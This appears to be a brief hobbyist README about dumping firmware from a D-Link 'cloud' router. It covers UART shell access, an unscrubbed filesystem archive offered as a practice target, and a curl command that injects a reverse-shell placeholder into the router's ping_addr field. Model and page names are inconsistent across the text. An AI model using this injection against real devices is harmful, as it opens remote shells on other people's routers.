 # Taking a dumparooski from a Dlink DIR363L "cloud" router.

DLink D636L "Cloud Router". Has RT6856F CPU, soic16 flash rom on the backside of the PCB, 1gig ports, nvme/tiny pci slot for wifi card, and thruholes for uart pins. UARTing into this thing will get you a shell. Standard cheap MIPS environment. Easy to build revsh's and rats.
<BR><BR>
dir636l.tar.gz has the whole filesystem (not scrubbed for addresses or serials). Still has the vulnerability for tools_ast.asp, great as a practice target. Exploits here, look for tools_vst.asp and/or ping.ccp. "curl -X POST --data 'ccp_act=ping_v6&ping_addr=$(SUPER NIFTY REVERSE SHELL HERE)'"
